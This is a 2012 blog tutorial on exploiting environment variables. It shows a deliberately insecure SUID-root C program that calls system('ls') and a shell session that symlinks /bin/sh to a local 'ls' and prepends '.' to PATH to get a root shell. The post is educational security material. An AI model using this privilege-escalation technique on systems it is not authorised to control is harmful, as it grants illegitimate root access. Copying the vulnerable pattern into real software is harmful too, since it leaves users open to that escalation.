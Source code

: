 ```yaml
---
layout: post
date: 2012-3-27
title: "Exploiting environment variables"
tags: [exploit, PATH]
author: Alexandru Juncu
---
```


Environment variables are sometimes very important when creating new
processes. For example, the `PATH` variable, that decides what executable to
run.

The easiest example to exploit `PATH` is to add the current directory `.` to
the list and overwrite common shell commands with something else.

	$ cat ./ls
	echo P0wn3d
	$ ls
	file1 file2
	$ ./ls
	P0wn3d
	$ export PATH=.:$PATH
	$ ls
	P0wn3d

But that can only affect the user's shell and can't do harm to the system.
What if some other conditions exist in the system, like the use of the
SUID bit. Normal processes are run as the user who executes them,
regardless of who owns the executable file (as long as the user who runs
the file can read the file). If the SUID is set on an executable file, any
process started from that executable will run as the owner of the file,
not shell owner. Here is an example of a very insecure source that
**shouldn't** be SUID-ed.


{% highlight cpp %}
#include<stdlib.h>

int main(void)
{
	system("ls");
	return 0;
}
{% endhighlight %}

Let's assume that the compiled executable from this code is owned by root,
SUID-ed and put into /bin with the name `ls_root`.

	$ ls -la /bin/ls_root
	-rwsrwsr-x 1 root root 7163 2012-03-21 12:28 /bin/ls_root

What this will enable, for example, is the listing of the `/root` directory
by any user.

	$ cd /root
	$ ls
	ls: cannot open directory .: Permission denied
	$ sudo ls
	test
	$ ls_root
	test

The code simply executes the `ls` command. But what if the `ls` command isn't
doing what it is supposed to do? Given this setup, as a normal user, we
can do the following:

	$ ln -s /bin/sh ls
	$ echo $$
	32655
	$ ls
	ls  ls_root.c
	$ ./ls
	$ echo $$
	32730
	$ whoami
	alexj
	$ exit
	$ export PATH=.:$PATH
	$ ls_root
	# whoami
	root
	#



The `ls_root` process will run the `ls` command. The `ls` command will run an
executable specified by the `PATH` variable (the executable is `/bin/ls`). But
if the `PATH` variable is changed in the current bash process, the
executable ran by the `ls` command will now become something else. If the
`ls_root` command is ran by root (with the help of the SUID bit), any of its
children will also be processes of root. So, if the `ls` command will now run
a bash executable, it will run a root owned executable that leads to root
access.

The SUID is something that is used in Linux systems (sudo and even ping use
it), but these executables are very carefully implemented so that normal
users can't exploit them.
